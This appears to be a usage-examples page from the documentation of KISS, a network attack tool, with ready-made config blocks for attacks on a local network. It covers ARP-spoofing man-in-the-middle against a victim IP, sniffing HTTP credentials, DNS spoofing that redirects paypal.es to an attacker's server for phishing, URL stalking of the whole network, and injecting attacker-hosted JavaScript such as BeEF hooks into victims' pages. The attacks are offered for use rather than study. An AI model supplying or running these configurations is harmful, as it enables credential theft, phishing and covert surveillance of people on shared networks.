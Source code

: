 # Usage examples
Here you will find some attacks and tests you can perform with KISS. Not every possibility is listed, so reading the [Config file](https://klesoft.github.io/KISS/pages/config) page is recommeded. Note that most of them use the ARP Spoofing module, as it performs a MITM attack, giving you full control over the traffic of the victim. If you want more complex or customised actions, you may want to use ARPS with a proxy in order to filter, modify or forward more specific packets. Remember that KISS output is fully customisable with the [Verbose file](https://klesoft.github.io/KISS/pages/verbose).

## Simple net recon and analysis
Let's perform a simple active and passive analysis in the net, resolving every ip we get so we can know the device name associated with that ip. The NetAnalyzer module config could be something like this:
```
[netanalyzer]
enabled=1
gateway=192.168.1.1
resolve=1
active=1
passive=1
passive_arps_everyone=0
passive_timeout=600
```
We could also use passive_arps_everyone, but I believe this is too aggressive and not always necessary. Remember to set enabled to 0 on every other module.

![Net Analysis Image](../img/1.png)

## Sniffing credentials
For sniffing credentials that our victim sends through an insecure page, we need to use the ARPS module to perform a MITM attack to the victim, and the SNIFFER module to sniff every http packet. An example config could be this:
```
[sniff]
enabled=1
time_limit=
attributes=*
get_every_cookie=0

[arps]
enabled=1
target=192.168.1.187
gateway=192.168.1.1
time_limit=
interval=2
disconnect=0
```
Remember to set enabled to 0 on every other module.

![Sniffing Image](../img/2.png)

## DNS Spoofing
We'll need ARPS and DNS modules. The config could be this:
```
[arps]
enabled=1
target=192.168.191.187
gateway=192.168.191.1
time_limit=
interval=2
disconnect=0

[dns]
enabled=1
file=dns
time_limit=
```
The interesting part is the dns file, while we set which hosts we want to redirect. An examples that redirects example.com to marca.com, wikia.com to pokexperto.net, paypal.es to my local ip (where I have the default Apache server), and ignores every other domain containing paypal would be like this:
```
example.com marca.com
wikia.com pokexperto.net
paypal.es 192.168.191.120
paypal *
```
If we use this attack with phising, we could have PayPal cloned on our local ip, and then steal sensitive information easily.

![DNS Spoofing Image](../img/3.png)

Victim:

![DNS Spoofing Victim Image 1](../img/4.png)
![DNS Spoofing Victim Image 2](../img/5.png)


## URL Stalking
Discovering which domains and URLs visits someone is very easy. We simply must set enabled to 1 in URLStalker, and configure the ARPS module. If we want to perform this attack to the whole network, we can use this:
```
[arps]
enabled=1
target=everyone
gateway=192.168.1.1
time_limit=
interval=2
disconnect=0

[urlstalker]
enabled=1
time_limit=
```

![URL Stalking Image](../img/6.png)

## JS Injecting
This is a very powerful attack. To inject a JS file called `kiss2.js` located in our local server, we could use something like this:
```
[arps]
enabled=1
target=192.168.1.187
gateway=192.168.1.1
time_limit=
interval=2
disconnect=0

[js]
enabled=0
target=192.168.1.187
file=http://192.168.1.120/kiss2.js
time_limit=
```
This file could contain simply an alert, or also a more complex code, like the one provided by BeEF framework, which gives you a lot of control over the victim.

![JS Injecting Image](../img/7.png)

Victim:

![JS Injecting Victim Image](../img/8.png)
